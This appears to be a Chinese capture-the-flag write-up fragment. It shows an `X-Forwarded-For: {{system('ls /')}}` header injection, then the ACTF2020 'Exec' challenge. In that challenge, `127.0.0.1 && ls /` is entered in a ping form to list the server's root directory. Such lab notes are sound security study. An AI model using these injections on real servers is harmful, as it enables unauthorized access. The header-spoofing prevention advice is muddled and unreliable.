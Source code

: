 

---
### 3 

`X-Forwarded-For` 是一个HTTP 请求头字段。在正常情况下，它用于标识客户端的原始 IP 地址，尤其在经过代理（如负载均衡器、反向代理等）的情况下。（在尝试访问bing.com的时候modifyheader就是利用这个原理）
`X-Forwarded-For: {{system('ls /')}}` 是一个恶意构造的输入，试图通过伪造的 `X-Forwarded-For` 头字段执行系统命令 `ls /` 来获取服务器上根目录的文件列表。然而，这是一种违规和危险的行为，可能会导致系统安全风险和非法访问。
**预防**：
- 1.对于HTTP请求头字段，在正常情况下浏览器会发送真实的客户端IP地址，而不是接受用户输入的X-Forwarded-For值。这样可以避免恶意用户伪造IP地址来执行攻击。
- 2.大多数Web服务器也会验证和过滤请求头字段，确保其中的数据是合法和安全的。
此外，系统管理员也应该采取必要的安全措施来保护服务器免受攻击。这包括配置正确的防火墙规则、定期更新和升级软件以修复安全漏洞，并按照最佳实践设置服务器和应用程序。

-------
-------

## [ACTF2020新生赛]Exec 1

### 1 

主要是讲目录这一个。
打开是一个ping界面，怀疑是SQL injection或者xss。
输入`127.0.0.1`得到
```txt
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.120 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.139 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.100 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.100/0.119/0.139 ms

```

疑惑中带有不解。差点把那个min/avg/max当目录名去了。
### 2 

#### 第一步 
```
127.0.0.1 && ls /
```
得到响应


```

...
round-trip min/avg/max = 0.104/0.151/0.220 ms
bin
dev
etc
flag
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
```